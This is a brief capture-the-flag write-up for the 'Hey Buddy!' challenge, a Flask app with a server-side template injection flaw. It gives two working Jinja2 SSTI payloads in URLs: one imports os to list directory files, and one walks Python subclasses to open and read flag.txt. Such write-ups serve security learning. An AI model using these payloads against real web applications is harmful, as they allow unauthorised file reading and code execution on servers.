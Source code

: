 
## Hey Buddy!

![img](https://i.ibb.co/pdSMfVs/image.png)

### Solution:

This challenge is developed using flask and it contains the SSTI (Server Side Template Injection) vulnerability. It has two steps to exploit.

Step 1: Checking where is the flag file location

```
https://h3y-buddy.vishwactf.com/submit?name={{request.application.__globals__.__builtins__.__import__(%27os%27).listdir()}}
```
![img](https://i.ibb.co/nksZN8w/image.png)

Step 2: Reading flag file using the vulnerability

```
https://h3y-buddy.vishwactf.com/submit?name={{%27abc%27.__class__.__base__.__subclasses__()[92].__subclasses__()[0].__subclasses__()[0](%27flag.txt%27).read()}}
```

![img](https://i.ibb.co/tLrfQyX/image.png)
